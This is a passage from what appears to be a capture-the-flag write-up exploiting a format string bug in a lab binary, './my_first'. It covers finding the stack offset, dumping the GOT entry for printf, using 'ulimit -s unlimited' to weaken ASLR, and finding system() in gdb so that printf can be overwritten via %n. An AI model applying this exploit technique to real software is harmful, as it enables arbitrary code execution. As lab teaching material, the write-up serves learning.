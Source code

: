 Parameter 8 in the format string is the start of the section on the stack we can read now, shown in the output `AAAA.0x41414141` of the format string `AAAA.0x%8$x`.

Now we will move on to making use of the `%n` format string to write to a arbitrary area in memory. Where do we want to write? To the GOT where the lookup for `printf()` occurs ofc! Lets dump the GOT for `./my_first`, and determine where it will go look for `printf()`:

```bash
mike@pegasus:~$ objdump -R ./my_first

./my_first:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049bec R_386_GLOB_DAT    __gmon_start__
08049c20 R_386_COPY        stdin
08049bfc R_386_JUMP_SLOT   printf
08049c00 R_386_JUMP_SLOT   fgets
08049c04 R_386_JUMP_SLOT   puts
08049c08 R_386_JUMP_SLOT   __gmon_start__
08049c0c R_386_JUMP_SLOT   __libc_start_main
08049c10 R_386_JUMP_SLOT   putchar
08049c14 R_386_JUMP_SLOT   strtol
```

The location of `printf()` will be looked up at `08049bfc`. This is the part where we want to rewrite the address of `printf()` to that of libc's `system()`.

The last part we need is to know where `system()` actually is. An important vector that may influence this position in memory is known as ASLR, which will effectively cause the address of `system()` to be different every time `./my_first` is run. To combat this, a neat little trick to increase the stack size can be used using `ulimit`. `ulimit -s unlimited` will maximize the stack size, effectively causing the ASLR to be practically nonexistent:

```bash
mike@pegasus:~$ ulimit -s
8192
mike@pegasus:~$ ulimit -s unlimited
mike@pegasus:~$ ulimit -s
unlimited
```

With the ASLR problem out of the way, lets leak the address of `system()`:

```bash
# fire up gdb
mike@pegasus:~$ gdb -q ./my_first
Reading symbols from /home/mike/my_first...(no debugging symbols found)...done.

# set a break point as we enter main()
(gdb) b main
Breakpoint 1 at 0x804850f

# run the binary
(gdb) r
Starting program: /home/mike/my_first

Breakpoint 1, 0x0804850f in main ()

# leak the current address of system()
(gdb) p system
$1 = {<text variable, no debug info>} 0x40069060 <system>
(gdb)
```
